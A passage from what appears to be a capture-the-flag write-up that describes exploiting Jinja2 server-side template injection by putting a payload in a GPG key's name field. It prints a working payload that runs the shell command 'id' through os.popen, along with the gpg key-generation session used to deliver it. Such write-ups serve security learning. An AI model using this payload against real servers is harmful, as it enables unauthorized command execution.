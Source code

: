 I knew that I could be some code execution on the server, but I did not know which templating engine was used. I tried a few payloads from [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection). It looked like the server was using [Jinja2](https://palletsprojects.com/p/jinja/), but my payloads were crashing the server. I tried a [payload from a different site](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/).

```
{% raw %}{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}{% endraw %}
```

I regenerated my GPG key with that payload as the name, signed a message, and pasted it to the form. It worked.

```bash
$ gpg --full-generate-key
gpg (GnuPG) 2.2.40; Copyright (C) 2022 g10 Code GmbH
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

Please select what kind of key you want:
   (1) RSA and RSA (default)
   (2) DSA and Elgamal
   (3) DSA (sign only)
   (4) RSA (sign only)
  (14) Existing key from card
Your selection?
RSA keys may be between 1024 and 4096 bits long.
What keysize do you want? (3072)
Requested keysize is 3072 bits
Please specify how long the key should be valid.
         0 = key does not expire
      <n>  = key expires in n days
      <n>w = key expires in n weeks
      <n>m = key expires in n months
      <n>y = key expires in n years
Key is valid for? (0)
Key does not expire at all
Is this correct? (y/N) y

GnuPG needs to construct a user ID to identify your key.

Real name: {% raw %}{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}{% endraw %}
Email address: test@test.com
Comment:
You selected this USER-ID:
    "{% raw %}{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}} <test@test.com>{% endraw %}"

Change (N)ame, (C)omment, (E)mail or (O)kay/(Q)uit? o
We need to generate a lot of random bytes. It is a good idea to perform
some other action (type on the keyboard, move the mouse, utilize the
disks) during the prime generation; this gives the random number
generator a better chance to gain enough entropy.
We need to generate a lot of random bytes. It is a good idea to perform
some other action (type on the keyboard, move the mouse, utilize the
disks) during the prime generation; this gives the random number
generator a better chance to gain enough entropy.
gpg: revocation certificate stored as '/home/ehogue/.gnupg/openpgp-revocs.d/C303119ABE54DB87FB4922CCAD71986673962A25.rev'
public and secret key created and signed.

pub   rsa3072 2023-09-03 [SC]
      C303119ABE54DB87FB4922CCAD71986673962A25
```